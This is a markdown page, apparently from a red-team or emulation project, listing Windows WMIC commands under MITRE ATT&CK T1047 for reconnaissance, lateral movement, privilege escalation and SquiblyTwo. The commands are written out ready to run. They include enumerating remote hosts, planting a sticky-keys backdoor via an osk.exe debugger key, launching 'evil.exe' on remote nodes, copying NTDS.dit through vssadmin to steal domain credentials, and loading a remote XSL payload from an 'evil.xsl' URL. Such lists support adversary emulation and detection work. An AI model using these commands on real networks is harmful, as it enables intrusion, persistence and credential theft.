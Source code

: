 ﻿## Windows Management Instrumentation

MITRE ATT&CK Technique: [T1047](https://attack.mitre.org/wiki/Technique/T1047)

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"

### Lateral Movement

Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"

### SquiblyTwo

Input:

    wmic process list /FORMAT:evil.xsl

Input:

    wmic os get /FORMAT:”https:///evil.xsl”

